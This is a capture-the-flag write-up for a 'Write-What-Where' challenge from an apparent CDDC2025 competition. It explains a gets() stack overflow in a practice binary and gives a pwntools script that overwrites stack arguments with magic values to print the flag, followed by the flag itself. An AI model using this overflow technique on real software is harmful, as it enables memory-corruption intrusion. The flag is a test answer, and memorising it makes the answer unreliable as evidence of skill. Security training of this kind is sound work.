




## Write-What-Where
### Static analysis
`main()` calls `vuln()` with stack variables passed as the arguments. There is a vulnerable `gets()` at line 19 which allows the overwriting of these stack variables:



`vuln()` will print the flag if the arguments are of the correct values:



### Exploit crafting
Finding the positions of the arguments:



### Exploit code
```python
from pwn import *

elf = context.binary = ELF('./LOVEPROTAIN', checksec=False)
context.log_level = "error"

arg1 = 0xdeadbeef
arg2 = 0xe0ddf00d
arg3 = 0xbadc0ffe

payload = flat(
    16 * b'A',
    arg2,
    arg3,
    4 * b'B',
    arg1
)

p = process()
p.sendline(payload)
p.interactive()

# CDDC2025{8_BYTE5_OF_PROTAIN_SHAKE_YUM}
```

### Exploit success

